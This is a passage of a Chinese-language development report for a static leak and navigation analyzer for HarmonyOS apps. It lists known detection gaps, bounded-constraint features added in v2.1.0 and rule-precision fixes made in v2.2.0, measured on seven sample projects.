| 跨方法 AVPlayer 泄漏漏检 | 中 | `media.createAVPlayer()` 与 `release()` 跨 3 层方法调用（createAvPlayer→release），IFDS 路径未能闭合。MultiVideo 的 AVPlayer 泄漏漏报属此类。 |
| 静态命名空间 className 丢失 | 低 | ArkAnalyzer 对静态命名空间导入（如 `distributedDataObject.create()`）将 className 解析为空字符串，导致规则无法精确命中。DistributedMail 的分布式 API 漏报属此类。 |

### E. v2.1.0 有界约束完整实现报告

#### 新增/修复功能

| 功能 | 文件 | 说明 |
|------|------|------|
| 约束1 Ability 数量限制 | `TaintAnalysisProblem.ts` | `checkAbilityBoundary` + `TaintFact.visitedAbilities` |
| 约束2 CFG 循环展开 | `LifecycleModelCreator.ts` | `maxCallbackIterations` 控制 for 循环展开次数 |
| 约束2 流水线接入 | `TaintAnalysisSolver.ts` + `LifecycleAnalyzer.ts` | 从 CLI 到 LifecycleModelCreator 的完整传递 |
| 约束3 导航跳数限制 | `TaintAnalysisProblem.ts` | `isNavigationCall` + `TaintFact.navigationCount` |
| NavPathStack 支持 | `NavigationAnalyzer.ts` | pushPath/pushPathByName/replacePath/replacePathByName |
| SourceSinkManager Bug 修复 | `SourceSinkManager.ts` | 相同 pattern 多条规则不再互相覆盖（Map key 改为 id） |
| bounds 参数 | `LifecycleAnalyzer.ts` | `AnalysisOptions.bounds` 透传三条约束参数 |
| 测试断言强化 | `Demo4testsAnalysis.test.ts` | 有界/无界对比 + OxHornCampus 泄漏内容断言 |
| 约束专项测试 | `TaintAnalysisIntegration.test.ts` | 约束1/2/3 专项截断效果验证 |

---

### F. v2.2.0 规则精度改进报告

基于 7 个真实鸿蒙项目（RingtoneKit / UIDesignKit / CloudFoundation / OxHornCampus / DistributedMail / TransitionPerformanceIssue / MultiVideoApplication）的人工审查与自动分析对比，完成以下修复：

#### 修复内容

| 修复项 | 文件 | 效果 |
|--------|------|------|
| 删除 Map.set / Set.add / Array.push Source 规则及其配对 Sink（7条） | `SourceSinkManager.ts` | MultiVideo Source 86→0，OxHornCampus Source 9→3，TransitionBefore Source 7→1，误报率大幅降低 |
| 新增分布式数据 API 规则：distributedDataObject.create / DataObject.on / DataObject.off | `SourceSinkManager.ts` | 为 DistributedMail 类分布式应用提供规则基础 |
| 新增 display.on / display.off 规则 | `SourceSinkManager.ts` | 支持 MultiVideo 等项目的折叠屏事件泄漏检测 |
| 导航分析扩展到 Component 类 | `Demo4testsAnalysis.test.ts` | UIDesignKit 导航 1→2，OxHornCampus 导航 0→2 |

#### 已知局限（暂缓修复）

| 局限 | 影响项目 | 说明 |
|------|---------|------|
| 链式调用导航漏检 | OxHornCampus（3处全漏） | `getUIContext().getRouter().pushUrl()` 需类型追溯，成本高 |
| 跨方法 AVPlayer 泄漏漏检 | MultiVideoApplication | createAVPlayer→release 路径跨 3 层方法，IFDS 未闭合 |
| 静态命名空间 className 丢失 | DistributedMail | ArkAnalyzer IR 对 `distributedDataObject.create()` 的 className 解析为空字符串 |

---

> **作者**: AI Assistant & YiZhou
> **创建日期**: 2025-01-17  
> **最后更新**: 2026-03-01
